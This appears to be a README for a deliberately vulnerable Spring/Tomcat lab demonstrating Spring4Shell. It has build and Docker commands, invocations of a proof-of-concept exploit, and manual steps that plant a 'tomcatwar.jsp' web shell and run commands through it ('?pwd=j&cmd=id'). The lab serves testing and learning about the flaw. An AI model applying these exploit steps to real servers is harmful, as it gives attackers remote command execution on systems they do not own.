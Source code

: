 # Example of a spring4shell vulnerable Tomcat application

![spring4shellapplication](spring4shellapplication.png)

## Example (Docker)

An example of a vulnerable Tomcat application + server.

War files built from /spring-war folder. (It is recommended to build your own war files but i have provided one based on <https://spring.io/guides/gs/handling-form-submission/>)

### Build

Building the docker version of the vunurable application, you can build your own war files.

### Building your own war file

You can use the provided spring-form.war or build your own

#### Prerequisites (Only if building your own war files)

- Java
- Java JDK (I have only tested with JDK 18)
- [Maven](https://maven.apache.org/install.html)

```sh
cd spring-war
mvn clean package
cd target
mv spring-form.war ../../ # Linux move the war file to vunerable-tomcat
move spring-form.war ../../ # Windows
cd ../../
```

### Building and starting the docker container

```sh
docker build -t vulnerable-tomcat .
docker run -it --rm -p 8888:8080 vulnerable-tomcat
```

Wait about 20 seconds for the server to start. Then run the exploit script.

```sh
python3 poc.py --url http://<dockerip>:8888/spring-form/greeting
#or docker variant
docker pull ghcr.io/bobtheshoplifter/spring4shell-poc:main
docker run ghcr.io/bobtheshoplifter/spring4shell-poc:main --url http://<dockerip>:8888/spring-form/greeting
```

## Example (Manual/Old)

Found intresting poc here : <https://github.com/craig/SpringCore0day/blob/main/exp.py> [^1]. & <https://twitter.com/vxunderground/status/1509170582469943303>

<https://github.com/reznok/Spring4Shell-POC> - Docker, POC

- clone sample repo from <https://spring.io/guides/gs/handling-form-submission/>
- you can skip right to the gs-handling-form-submission/complete directory, no need to follow the tutorial
- modify it so that you can build a war file (<https://www.baeldung.com/spring-boot-war-tomcat-deploy>). build war file :)
- install tomcat9 + java 11 (i did it on ubuntu 20.04 via apt-get)
- deploy the war file
- update the PoC (<https://share.vx-underground.org/>) to write the tomcatwar.jsp file to webapps/handling-form-submission instead of webapps/ROOT
- run PoC (ignore the URL it gives you for the webshell): python3 exp.py --url <http://your.ip.here:8080/handling-form-submission-complete/greeting>
- you should see the "tomcatwar.jsp" file now in webapps/handling-form-submission
- hit <http://your.ip.here:8080/handling-form-submission/tomcatwar.jsp?pwd=j&cmd=id> to see the results
